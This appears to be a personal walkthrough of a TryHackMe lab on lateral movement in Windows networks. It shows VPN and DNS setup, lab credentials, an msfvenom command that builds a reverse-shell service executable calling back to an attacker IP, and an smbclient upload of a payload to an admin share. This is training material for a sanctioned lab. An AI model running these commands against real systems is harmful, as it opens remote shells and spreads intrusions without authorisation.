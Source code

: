 ```yaml
---
title: Lateral Movement and Pivoting
---
```


<https://tryhackme.com/room/lateralmovementandpivoting> Common techniques used to move laterally across a Windows network.

* * * 

# Introduction

Connecting via VPN. 

- `sudo openvpn --config ~/Downloads/62836ffc2c1677004856943b-lateralmovementandpivoting.ovpn --daemon`

Edit DNS Config `/etc/resolv.conf`

```
# Generated by NetworkManager
# search hitronhub.home
# nameserver 192.168.0.1

# Added
search cyber.range za.tryhackme.com
nameserver 10.200.51.101 
nameserver 10.0.0.1
# Shorten name resolution timeouts to 1 second
options timeout:1
# Only attempt to resolve a hostname 2 times
options attempts:2
```

Get creds so we can ssh in

Your credentials have been generated: Username: arthur.campbell Password: Pksp9395

- `ssh za\\arthur.campbell@thmjmp2.za.tryhackme.com`

We also have the following information to complete the exercise:

```
User: ZA.TRYHACKME.COM\t1_leonard.summers
Password: EZpass4ever
```

Instructed to create a service payload to upload.

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.49.50 LPORT=8945 -f exe-service -o 0xskar-service.exe`

And upload the service to the smb admin share

- `smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever`



